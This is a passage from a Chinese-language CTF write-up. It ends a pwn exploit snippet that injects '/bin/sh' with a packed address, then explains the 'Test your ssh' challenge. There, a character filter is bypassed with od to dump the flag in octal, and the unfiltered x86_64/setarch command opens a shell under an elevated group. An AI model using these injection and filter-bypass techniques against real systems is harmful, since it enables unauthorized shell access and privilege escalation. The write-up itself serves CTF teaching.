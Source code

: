 ```python
sl('/bin/sh;AAAAAAAA'+p32(0x46d040))
secret = [18283,11576,17728,15991,12642,16253,13690,15605,12190,16874,18648,10083,18252,14345,11875]
for i in secret:
    send_secret(i)

send_secret(66666)
```
只用找出前0x10个secret即可，不过，硬要找全10000也不难，正则匹配一下就好 。



## Test your ssh(test) - TaQini

>由于Ubuntu 14之后，通过egid执行/bin/sh的权限被ban了
>所以这次比赛ssh靶机用的全是Ubuntu 14.04

考察点：linux基础

这题设置的目的是测试ssh连接显示编码什么的是否正常，但是直接白给不太好，就加了个字符过滤。

看源码，可知过滤了以下字符：

```shell
 n e p b u s h i f l a g | / $ ` - < > .
```
于是就找可用的命令呗，先看下环境变量`PATH`，然后`grep`搜一下
```shell
$ env $PATH
$ ls /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin /usr/games /usr/local/games | grep -v -E 'n|e|p|b|u|s|h|i|f|l|a|g'
```
发现`od`幸存
```
ctf@f930cab87217:~$ ./test | grep 045102 -C 2
od *
uid=1000(ctf) gid=1000(ctf) egid=1001(ctf_pwn) groups=1000(ctf)
0000000 045102 075504 067145 067552 057571 067571 071165 070137
0000020 067167 063537 066541 076545 077412 046105 001106 000401
0000040 000000 000000 000000 000000 001000 037000 000400 000000
```
使用`od`输出flag，然后解八进制即可

**非预期解**

`x86_64`命令没有过滤掉，可以直接拿shell

原理如下

```shell
ls -al /usr/bin/x86_64
lrwxrwxrwx 1 root root 7 8月  23  2019 /usr/bin/x86_64 -> setarch
```
`x86_64`是指向`setarch`命令(soft link)，查看一下`setarch`的文档，如下：

```shell
setarch - change reported architecture in new program environment and/or set personality flags 
...
The default program is /bin/sh.
```
